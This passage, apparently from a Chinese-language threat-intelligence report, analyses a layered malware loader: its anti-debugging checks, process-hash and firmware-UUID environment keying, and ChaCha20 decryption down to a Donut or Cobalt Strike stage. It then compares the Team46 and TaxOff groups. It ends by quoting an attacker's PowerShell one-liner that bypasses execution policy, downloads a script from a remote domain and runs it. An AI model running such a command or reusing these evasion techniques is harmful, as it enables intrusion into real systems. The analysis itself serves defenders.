图 4. 加密层  
  
在线程内部，加载器循环操作以解密第一层加密，然后将其用作第二层的解密器。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tad4spib6WVQc03kEYD6LB8IwEKf6ACKbreJiaTv8nFzhjGUEfl6jfADjSKdWyarTLE2wZ4tbejfbQkw/640?wx_fmt=png&from=appmsg "")  
  
图5. 第一层和第二层的解密  
  
一旦第二层解密，控制权就会转移到第二层。该层使用自定义控制流展平技术进行混淆。它动态解析所有必要的 WinAPI 函数，然后将控制权转移到主函数。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tad4spib6WVQc03kEYD6LB8Iw5ARTU3SicCsNYBk3xmibgsYdSI2xwzZtTJTuqRjw4MuQGBKqvoZ5mOwA/640?wx_fmt=png&from=appmsg "")  
  
图 6. 混淆的控制流  
  
在此阶段，加载器会检查是否存在调试器，并确保其在正确的环境中执行。加载器首先验证其是否在特定进程的上下文中执行。为此，它使用改进的 BLAKE2b 哈希算法来计算当前进程名称的哈希值。然后将该哈希值与嵌入的哈希值之一进行匹配；如果加载器未在正确的进程中执行，则终止其执行。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tad4spib6WVQc03kEYD6LB8IwqyMmbiaJHWQ0DlXlybbyicJfCycafXTtiamluGVW09dibyaMFicIyQxvAQA/640?wx_fmt=png&from=appmsg "")  
  
图 7. 检查是否在正确的流程内执行  
  
接下来，加载程序通过调用 GetSystemFirmwareTable 函数获取固件 UUID。（该 UUID 随后用于有效载荷解密过程，这意味着恶意有效载荷只能在目标系统上解密。目前，我们还无法确定攻击者是如何识别用于生成恶意软件的机器 UUID 的。）之后，加载程序会对堆执行调试检查。如果检查失败，它会转移预期的控制流，将 UUID 值随机化，并将控制权转入无限解密循环。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tad4spib6WVQc03kEYD6LB8IwYdrDftHkKrnuzg7swtoX8ojUSU0rMEl5DTh3XcxRA4NQ0td581C8VA/640?wx_fmt=png&from=appmsg "")  
  
图8.调试检查  
  
如果所有检查都成功通过，UUID 将被传输到实现 ChaCha20 算法第一轮的函数中，以生成密钥。加载程序使用此密钥，使用 ChaCha20 算法解密第三层加密，并对解密数据执行完整性检查。接下来，加载程序使用 PEB 结构中的 ImagePathName 作为密钥解密第四层加密。第四层的数据用于生成第五层的最终解密密钥（与 UUID 的情况类似）。此阶段还包括对解密字节的完整性检查。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tad4spib6WVQc03kEYD6LB8Iw65fZjEb7j6IbqlficK1JFKyeKWKtibUvQiazicibC7jeHiaby3LeXFuCLia9A/640?wx_fmt=png&from=appmsg "")  
  
图 9. ImagePathName 的使用  
  
如果密钥解密成功，加载器就会使用它来解密最后一层加密，而这最后一层加密恰好就是 甜甜圈加载器。   
  
我们还遇到了使用 Cobalt Strike 而不是 Donut 的变种。如果最终加载器是 Donut，则有效载荷为 Trinper；否则，有效载荷为 Cobalt Strike。Trinper 的功能保持不变。  
  
辅助工具  
  
调查发现，攻击者还使用自行编写的工具对受害者系统进行侦察。所有工具均采用.NET编写，并通过命名管道传输获取的数据。这些工具包括：  
- dirlist.exe 在系统中搜索文件。  
  
- ProcessList.exe 获取正在运行的进程列表。  
  
- ScreenShot.exe 用于捕获屏幕截图。  
  
Team46 与 TaxOff 的比较  
  
让我们考虑一下表明 Team46 和 TaxOff 可能是同一团体的事实。  
  
PowerShell 命令和 URL 模式  
  
正如报告开头所述，两个组织都使用了类似的 PowerShell 命令和脚本，包括类似的 URL 模式。  
  
Team46 在 2024 年 2 月使用的命令：  
  
```
-w Minimized -ep Bypass -nop -c"irm https://infosecteam.info/other.php?id=jdcz7vyqdoadr31gejeivo6g30cx7kgu | iex"
```  
  